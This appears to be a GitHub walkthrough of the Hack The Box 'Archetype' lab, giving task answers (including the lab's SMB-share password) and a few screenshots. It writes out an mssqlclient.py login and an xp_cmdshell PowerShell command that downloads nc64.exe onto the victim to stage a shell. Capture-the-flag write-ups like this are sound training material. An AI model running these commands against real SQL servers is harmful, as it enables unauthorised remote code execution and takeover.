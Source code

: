 <h1>Archetype</h1>

<h2>CONNECT</h2>
Connect to Starting Point VPN before starting the machine<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Fawn/Fawn/download.png" alt="download" width="30%">
Using <code>openvpn</code> to operate the file of <code>download vpn</code> in kali.

<h2>TASK</h2>

<h3>TASK 1</h3>
Q：Which TCP port is hosting a database server?<br>
A：<code>1433</code><br><br>

<h3>TASK 2</h3>
Q：What is the name of the non-Administrative share available over SMB?<br>
A：<code>backups</code><br>


<h3>TASK 3</h3>
Q：What is the password identified in the file on the SMB share?<br>
A：<code>M3g4c0rp123</code><br>

<h3>TASK 4</h3>
Q：What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?<br>
A：<code>mssqlclient.py</code><br>
FYI：<a href="https://www.secureauth.com/labs/open-source-tools/impacket/">Secure Auth</a>

<h3>TASK 5</h3>
Q：What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?<br>
A：<code>xp_cmdshell</code><br><br>
<a href="1433 - Pentesting MSSQL - Microsoft SQL Server">1433 - Microsoft SQL Server</a><br>
<a href="https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet">MSSQL Injection Cheat Sheet</a><br>

<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Appointment/appointment/nmap.png" alt="nmap" width="60%">

<h3>TASK 6</h3>
Q：What script can be used in order to search possible paths to escalate privileges on Windows hosts?<br>
A：<code>WinPEAS</code><br><br>
<a href="https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md">Windows Privilege Escalation Awesome Script (.exe)</a>

<h3>TASK 7</h3>
Q：What file contains the administrator's password?<br>
A：<code>ConsoleHost_history.txt</code><br>
<code>python3 mssqlclient.py ARCHETYPE/sql_svc:&lt;passwd&gt;@&lt;TARGET IP&gt; -windows-auth</code><br><br>
<code>xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://&lt;TARGET IP&gt/nc64.exe -outfile nc64.exe"</code>


<h2>SUBMIT FLAG</h2>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Appointment/appointment/login1.png" alt="login1" width="30%">
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Appointment/appointment/login2.png" alt="login2" width="30%">
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Appointment/appointment/login3.png" alt="login3" width="30%">
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Appointment/appointment/login4.png" alt="login4" width="30%">
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/Appointment/appointment/flag.png" alt="flag" width="60%">

